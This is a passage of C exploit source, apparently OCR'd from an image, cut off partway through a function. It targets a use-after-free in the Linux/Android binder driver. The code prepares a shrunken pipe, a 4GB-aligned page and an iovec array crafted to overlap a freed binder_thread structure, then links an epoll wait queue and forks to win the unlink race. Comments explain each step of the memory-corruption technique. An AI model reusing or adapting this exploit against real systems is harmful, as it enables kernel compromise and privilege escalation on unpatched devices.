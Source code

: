 ``` c
    // One way to achieve this is by using the blocking APIs
    // in Linux kernel. Such APIs are read, write, etc on pipe.

    // Setup pipe for iovec
    INFO("[+] Setting up pipe\n");

    if (pipe(pipe_fd) == -1) {
        ERR("\t[-] Unable to create pipe\n");
        exit(EXIT_FAILURE);
    } else {
        INFO("\t[*] Pipe created successfully\n");
    }
    //
    // pipe_fd[0] = read fd
    // pipe_fd[1] = write fd
    //
    // Default size of pipe is 65536 = 0x10000 = 64KB
    // This is way much of data that we care about
    // Let's reduce the size of pipe to 0x1000
    //
    if (fcntl(pipe_fd[0], F_SETPIPE_SZ, PAGE_SIZE) == -1) {
        ERR("\t[-] Unable to change the pipe capacity\n");
        exit(EXIT_FAILURE);
    } else {
        INFO("\t[*] Changed the pipe capacity to: 0x%x\n", PAGE_SIZE);
    }
    INFO("[+] Setting up iovecs\n");
    //
    // As we are overlapping binder_thread with iovec,
    // binder_thread->wait.lock will align to iovecStack[10].io_base.
    //
    // If binder_thread->wait.lock is not 0 then the thread will get
    // stuck in trying to acquire the lock and the unlink operation
    // will not happen.
    //
    // To avoid this, we need to make sure that the overlapped data
    // should be set to 0.
    //
    // iovec.iov_base is a 64bit value, and spinlock_t is 32bit, so if
    // we can pass a valid memory address whose lower 32bit value is 0,
    // then we can avoid spin lock issue.
    //
    mmap4gbAlignedPage();
    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = PAGE_SIZE;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *) 0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = PAGE_SIZE;

    // Now link the poll wait queue to binder thread wait queue
    linkEventPollWaitQueueToBinderThreadWaitQueue();
    //
    // We should trigger the unlink operation when we
    // have the binder_thread reallocated as iovec array
    //
    // Now fork
    pid_t childPid = fork();
    if (childPid == 0) {
        //
        // child process
        // There is a race window between the unlink and blocking
        // in writev, so sleep for a while to ensure that we are
        // blocking in writev before the unlink happens
        sleep(2);
```